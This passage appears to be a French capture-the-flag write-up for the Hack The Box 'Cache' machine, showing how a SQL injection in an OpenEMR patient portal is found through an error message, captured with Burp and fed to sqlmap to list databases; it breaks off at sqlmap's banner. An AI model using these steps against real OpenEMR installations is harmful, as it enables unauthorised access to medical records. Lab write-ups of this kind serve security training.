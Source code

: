 On tombe sur une page pour se loguer sur OpenEMR

'OpenEMR est un logiciel de gestion de cabinet médical qui prend également en charge les dossiers médicaux électroniques. ' - Wikipedia

Plusieurs exploits connus pour OpenEMR dont un RCE (authentificated) et SQLi

SQLi, voir: [https://www.youtube.com/watch?v=DJSQ8Pk_7hc&t=73s](https://www.youtube.com/watch?v=DJSQ8Pk_7hc&t=73s)

Se rendre sur la page http://hms.htb/portal/ et cliquer sur register puis aller sur http://hms.htb/portal/add_edit_event_user.php?eid=1

Message: 

~~~
Query Error

ERROR: query failed: SELECT facility_id as minId, facility FROM users WHERE id =

Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1

/var/www/hms.htb/public_html/portal/add_edit_event_user.php at 123:sqlQuery
~~~

Intercepter la requête avec Burp et l'enregistrer

root@Host-001:~/Bureau/htb/Cache# vim sqli.req
root@Host-001:~/Bureau/htb/Cache# cat sqli.req 
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=191nknu8ddomaseol98be889ku; PHPSESSID=67mo10974t75foigcbjof9lcse
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
root@Host-001:~/Bureau/htb/Cache# 

root@Host-001:~/Bureau/htb/Cache# sqlmap -r sqli.req --dbs --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
